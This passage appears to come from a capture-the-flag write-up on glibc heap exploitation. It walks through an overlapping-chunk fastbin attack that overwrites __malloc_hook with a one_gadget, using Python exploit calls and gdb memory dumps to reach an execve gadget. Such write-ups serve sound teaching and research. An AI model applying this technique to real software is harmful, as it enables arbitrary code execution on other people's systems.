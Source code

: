 ```
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757190 (overlap chunk with 0x555555757100(freed) )
(0x80)     fastbin[6]: 0x0
                  top: 0x555555757370 (size : 0x20c90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x555555757100 (size : 0x200)
```

`chunk 0` is in the unsorted list. If we request a big enough allocation (and less than 0x200 - 0x10 size), we will be able to overlap the newly allocated chunk with the fastbin chunk at `0x555555757190`. We can leverage this overlap into performing a fastbin attack and finally overwrite `__malloc_hook` with `one_gadget`.

```
0x555555757100:	0x0000000000000000	0x0000000000000111 <-- new chunk
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000070	0x0000000000000070 <-- chunk 1 (free & overwrote FD field)
0x5555557571a0:	0x00007ffff7dd1aed	0x0000000000000000

(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757190 --> 0x7ffff7dd1aed (size error (0x78)) --> 0xfff7a92e20000000 (invaild memory)
(0x80)     fastbin[6]: 0x0
```

Now with two allocation of size `0x68` we will get back `0x00007ffff7dd1aed` which will allow us to overwrite `__malloc_hook`. 

```python
# malloc will return 0x555555757190
alloc(0x68, 6)
# malloc will return 0x00007ffff7dd1aed
alloc(0x68, 7)
# __malloc_hook => one gadget
edit(7,"H"*0x13+p64(oneshot))
```

```
gdb-peda$ x/gx &__malloc_hook
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7afe117
gdb-peda$ x/5i 0x00007ffff7afe117
   0x7ffff7afe117 <exec_comm+2263>:	mov    rax,QWORD PTR [rip+0x2d2d9a]        # 0x7ffff7dd0eb8
   0x7ffff7afe11e <exec_comm+2270>:	lea    rsi,[rsp+0x70]
   0x7ffff7afe123 <exec_comm+2275>:	lea    rdi,[rip+0x9bbed]        # 0x7ffff7b99d17
   0x7ffff7afe12a <exec_comm+2282>:	mov    rdx,QWORD PTR [rax]
   0x7ffff7afe12d <exec_comm+2285>:	call   0x7ffff7ad9770 <execve>
```
